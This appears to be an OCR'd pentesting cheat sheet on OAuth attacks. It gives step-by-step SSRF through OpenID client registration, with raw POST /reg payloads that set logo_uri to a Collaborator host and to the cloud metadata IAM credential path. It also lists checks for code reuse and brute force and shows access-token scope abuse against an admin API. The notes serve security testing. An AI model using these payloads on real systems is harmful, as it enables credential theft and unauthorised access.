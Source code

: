 ````jsx
    
    ```jsx
    1. try browse <https://TARGET-OAUTH-SERVER.net/.well-known/openid-configuration>
    2. Notice where the client registration endpoint is located example:"/reg"
    3. In Burp Repeater, create a suitable POST request and retrieve registration data like "client_id"
    ----------------------------------------------
    POST /reg
    HTTP/1.1
    Host: TARGET-OAUTH-SERVER.net
    Content-Type: application/json
    { "redirect_uris" : [
     "<https://example.com>" ]
    }
    ---------------------------------------------
    4. Send the GET /client/CLIENT-ID/logo request to Burp Repeater
    5. Go back to "POST /reg" request,Add the "logo_uri" ,test if it's vulnerable to ssrf
    -------------------------------------------------
    POST /reg
    HTTP/1.1
    Host: TARGET-OAUTH-SERVER.net
    Content-Type: application/json
    { "redirect_uris" : [
     "<https://example.com>" ], "logo_uri" :
    "<https://BURP-COLLABORATOR-PAYLOAD>"
    }
    -------------------------------------------------
    6. Try Read meta data files like
       "logo_uri" : "<http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/>"
    ```
### OAUTH Code Flaws
    
```jsx
    1. Can code be reused few times for an hour ?
    2. Can code be brute forced? Is there rate limits?
    3. is code for application X valid for application Y?
    ```
### **Access Token Scope Abuse**
    
 ```python
    <https://www.example.com/admin/oauth/authorize?[>...]&scope=read\\_profile\\
    &redirect_uri=/
    
    If all goes well, you will notice a response that looks something like this:
    
    {
    "access_token": "eyJz93a...k4laUWw",
    "refresh_token": "GEbRxBN...edjnXbL",
    "id_token": "eyJ0XAi...4faeEoQ",
    "token_type": "Bearer"
    
    }
    
    Now use this token to try to access another API endpoint that requires an elevated scope, for example:
    
    <https://www.example.com/api/v2/getCreditCardInfo?access_token=eyJz93a…k4laUWw>
````
